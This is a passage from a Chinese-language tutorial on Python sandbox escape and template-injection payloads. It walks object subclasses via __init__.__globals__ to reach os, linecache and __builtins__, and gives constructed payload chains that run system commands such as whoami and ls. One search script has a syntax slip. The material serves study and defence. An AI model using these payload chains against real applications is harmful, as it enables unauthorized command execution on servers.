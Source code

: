 可以利用`XX.__init__.globals__` 更详细的查看这个类的属性方法等

用下面的脚本遍历找到我们想利用的一些方法

```python
searchlist = ['os','eval','commands','subprocess','platform','timeit','importlib']
for search in searchlist
    num = -1
    for i in ().__class__.__bases__[0].__subclasses__():
        num += 1
        try:
            if search in i.__init__.__globals__.keys():
                print(i, num)
        except:
            pass
   
"""
py2.x (py3.x下可利用的模块更多)
(<lass 'site._Printer'>, 72, 'os')
(<class 'site.Quitter'>, 77, 'os')
"""
```

构造:

```python
().__class__.__mro__[1].__subclasses__()[77].__init__.__globals__['os'].system('whoami')
().__class__.__mro__[1].__subclasses__()[72].__init__.__globals__['os'].system('whoami')
().__class__.__mro__[1].__subclasses__()[72].__init__.__globals__['os'].popen('whoami').read()
```

**还有一些比较特殊的类和命令执行方式 warning相关的**

主要有两个 `<class 'warnings.WarningMessage'>`和`<class 'warnings.catch_warnings'>`

分别在`().__class__.__mro__[1].__subclasses__()[59]`和`().__class__.__mro__[1].__subclasses__()[60]`

再从linecache寻找可以利用的模块

`().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['linecache'].__dict__`

在linecache的`__dict__`里面可以找到一些可以利用的模块比如os模块

![1608958574283](1608958574283.png)

利用os模块里面的system方法

` ().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os'].__dict__['system']('ls') `

## 内置类的利用

主要是`__builtins__`

找到`__builtins__`位置

```python
search = '__builtins__'
num = -1
for i in ().__class__.__bases__[0].__subclasses__():
    num += 1
    try:
        if search in i.__init__.__globals__.keys():
            print(i, num)
    except:
        pass
```
